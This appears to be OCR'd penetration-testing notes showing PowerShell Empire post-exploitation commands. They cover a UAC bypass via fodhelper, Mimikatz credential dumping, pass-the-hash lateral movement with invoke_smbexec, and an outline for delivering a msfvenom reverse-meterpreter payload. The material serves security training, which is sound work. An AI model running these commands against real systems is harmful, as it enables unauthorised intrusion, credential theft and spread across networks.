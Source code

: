 		(Empire: powershell/situational_awareness/network/powerview/get_user) > info
	Important module options are:
		Name
		Module
		Language
		NeedsAdmin (set to true if module needs local admin privileges)
		OpsecSafe (set to true if we wish to avoid to leave behind proofs of compromise to evade endpoint protections machenisms)
		MinLanguageVersion (minimum version of PowerShell required to execute the script)
	Finally, we will run the module with the execute command:
		(Empire: powershell/situational_awareness/network/powerview/get_user) > execute
	To be noted that the situational_awareness category also includes a wide variety of network and port scanners
Credentials and privilege escalation:
	One of the most interesting modules in this group for privilege escalation is the "powerup allchecks" module
		(Empire: powershell/situational_awareness/network/powerview/get_user) > usemodule powershell/privesc/powerup
		(Empire: powershell/privesc/powerup/allchecks) > execute
	Another useful module is the bypassuac_fodhelper module, especially hany if we have a local admin access level. Depending on the Windows version, this module can bypass UAC and launch a high integrity PowerShell Empire agent:
		(Empire: powershell/privesc/powerup/allchecks) > usemodule powershell/privesc/bypassuac_fodhelper
	Before launching this module, we need to configure our listener:
		(Empire: powershell/privesc/bypassuac_fodhelper) > info
		(Empire: powershell/privesc/bypassuac_fodhelper) > set Listener http
		(Empire: powershell/privesc/bypassuac_fodhelper) > execute
	Once we have obtained Local Admin privileges on the Windows victim, we can then execute commands that require that integrity leve, such as Mimikatz to dump password hashes. The credentials category contains multiple Mimikatz commands that have been imported into Empire. The following command shows all available credentials modules:
		(Empire: 78PSBD4H) > usemodule credentials/ [TAB] [TAB]
	To be noted that if an "*" is printed aside to a module"s name, that module requires Local Admin integrity level. Let"'s have a closer look at a high integrity module, such as mimikatz/logonpasswords:
		(Empire: 78PSBD4H) > usemodule powershell/credentials/mimikatz/logonpasswords
		(Empire: powershell/credentials/mimikatz/logonpasswords) > execute
	The credentials found by that module are not only printed to screen as output of the command, but also stored in the Empire credentials store, enumerated with the creds command:
		(Empire: powershell/credentials/mimikatz/logonpasswords) > creds
Lateral movement:
	Let's attempt to perform lateral movement and reach the domain controller, that is located on a network that is not directly reachable from our attacker kali machine
	To list all available lateral movement modules:
		(Empire: powershell/credentials/mimikatz/logonpasswords) > usemodule powershell/lateral_movement/ [TAB] [TAB]
	As an example, we will use the invoke_smbexec module:
		(Empire: powershell/credentials/mimikatz/logonpasswords) > usemodule powershell/lateral_movement/invoke_smbexec
		(Empire: powershell/lateral_movement/invoke_smbexec) > info
		(Empire: powershell/lateral_movement/invoke_smbexec) > set ComputerName win10-x86
		(Empire: powershell/lateral_movement/invoke_smbexec) > set Listener http
		(Empire: powershell/lateral_movement/invoke_smbexec) > set Hash blablablajeff_adminpasswordhash
		(Empire: powershell/lateral_movement/invoke_smbexec) > set Domain corp.com
		(Empire: powershell/lateral_movement/invoke_smbexec) > execute
	BINGO! The agent was successfully deployed and we can now interact with it:
		(Empire: powershell/lateral_movement/invoke_smbexec) > agents
		(Empire: agents) > interact 4D9FH8GA
		(Empire: 4D9FH8GA) > 
Switching between Empire and Metasploit
	A possible integration of Metasploit and Empire can be showcased as follows:
		We use msfvenom to craft a malicious PW with a reverse meterpreter shell in it
		We setup a local meterpreter listener on localhost with Metasploit
		We then use Empire to upload the malicious PE to the Windows victim